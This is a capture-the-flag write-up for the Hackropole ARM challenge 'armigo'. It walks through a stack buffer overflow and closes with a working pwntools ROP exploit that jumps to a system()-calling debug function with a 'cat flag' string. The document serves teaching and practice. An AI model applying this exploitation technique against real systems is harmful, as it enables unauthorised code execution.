 +++
title = "Hackropole | Armigo"
+++

# [Pwn] armigo | hackropole

* [1. Checksec](#checksec)
* [2. Writeup](#writeup)
* [3. Full exploit](#full-exploit)

## Checksec

```bash
[*] '/home/botman/Documents/cybersec/CTF/solo/hackropole/pwn/armigo/armigo'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```

## Writeup

So this is yet another ARM pwn challenge !
We begin by open the binary in ghidra and check the main function, firstly we see a bof and then we can see another interesting function called "debug", this one is interesting becauseit's look like it's run some shell commands

![main](/images/armigo/main.png)

So now we can look into debug and yes! it's take the first argument and run system with it

![debug](/images/armigo/debug.png)

Ok, cool but how can we use this command to get the flag ? 
We can going to build a really easy ROP with a pop r0 with a command like "/bin/bash" or "cat flag" and then ret to debug no ?
Firstly we're gonna check i there is some string who can help us and yes, we can find the string "cat flag" at the address *0x000733fc*

![cat flag](/images/armigo/cat_flag.png)

Ok, so we just have to find a pop instruction and this should be easy because we have a big binary, and yes, it was easy

![pop](/images/armigo/pop.png)

So, i'm gonna summarize, we have:
- a pop instruction
- a "cat flag" string
- a debug function who run our shell command

so we're juste gonna build our rop like this:
```exploit
padding + pop + cat_flag + debug
```
this will pop r0 and lr (which is the "parente return address") and then put "cat flag" in r0 and debug addr in lr, after this there is a "bx lr" instruction which will jmp to our addr. 

and here we go, we got the flag

![flag](/images/armigo/flag.png)

## Full exploit

```python
from pwn import *

def exploit(io, elf, libc=None):
    padding = b"A"*68 
    pop = 0x000703c8 # pop {r0, lr}; bx lr;
    cat_flag = 0x000733fc # "cat flag"
    debug = 0x000104d8

    payload = padding + p32(pop) + p32(cat_flag) + p32(debug)

    io.sendlineafter(b'?\n', payload)
    io.recvline()
    flag = io.recvline().decode('utf-8')
    io.success(f'flag: {flag}')

```
[download here](/exploits/armigo.py)

**Writed by 0xB0tm4n**

